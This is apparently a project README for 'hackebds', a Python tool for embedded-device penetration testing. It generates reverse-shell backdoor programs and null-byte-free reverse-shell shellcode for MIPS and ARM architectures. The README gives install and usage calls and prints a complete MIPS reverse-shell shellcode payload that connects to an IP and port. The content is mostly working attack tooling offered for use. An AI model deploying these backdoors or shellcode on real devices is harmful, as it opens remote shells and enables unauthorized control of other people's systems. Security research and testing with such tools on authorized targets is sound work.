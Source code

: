# introduction

## foreword

>In the process of penetration and vulnerability mining of embedded devices, many problems have been encountered. One is that some devices do not have telnetd or ssh services to obtain an interactive shell, and the other is that memory corruption vulnerabilities such as stack overflow are usually Null bytes are truncated, so it is more troublesome to construct reverse_shellcode, so this tool was developed to exploit the vulnerability. This tool is developed based on the PWN module and currently uses the python2 language

## fuction

This tool is embedded in the security test of the device. There are two main functions:

1.  Generate **backdoor programs** of various architectures. The backdoor program is packaged in shellless pure shellcode and is smal in size.**Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

2.  Generate **reverse_shell shellcode** of various architectures during the exploit process, and no null bytes, which facilitates the exploitation of memory corruption vulnerabilities on embedded devices. **Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

## install (1)  Highly recommended！！Because the source code compilation may not be updated in time，Please install the latest
**pip install hackebds==0.0.7**
```
pip install hackebds==0.0.7
....
```
#### Instructions for use
When importing this module will import the pwn module

1. Generate backdoor programs of various architectures, encapsulate pure shellcode, and successfully connect to the shell
```
>>> from hackebds import *
>>> mipsel_backdoor(reverse_ip,reverse_port)
>>> mips_backdoor(reverse_ip,reverse_port)
>>> aarch64_backdoor(reverse_ip,reverse_port)
>>> armelv5_backdoor(reverse_ip,reverse_port)
>>> armelv7_backdoor(reverse_ip,reverse_port)
>>> armebv5_backdoor(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
```
expample:
```
>>> mipsel_backdoor("127.0.0.1",5566)
mipsel_backdoor is ok in current path ./
>>> 
```
2. Generates the use-back shellcode (no free) null bytes corresponding to various architectures

```
>>> from hackebds import *
>>> mipsel_reverse_sl(reverse_ip,reverse_port)
>>> mips_reverse_sl(reverse_ip,reverse_port)
>>> aarch64_reverse_sl(reverse_ip,reverse_port)
>>> armelv5_reverse_sl(reverse_ip,reverse_port)
>>> armelv7_reverse_sl(reverse_ip,reverse_port)
>>> armebv5_reverse_sl(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
```
example:
```
>>> from hackebds import *
>>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
```
## chips and architectures
Tests can leverage chips and architectures

Mips:
MIPS 74kc V4.12 big endian
MIPS 24kc V5.0  little endian

Armv7:
Allwinner(全志)V3s

Armv8:
Qualcomm Snapdragon 660

## updating
 2022.4.19 Added support for aarch64 null-byte reverse_shellcode
 2022.4.30 Reduced amount of code using functions and support python3

## One-click build environment

To be added


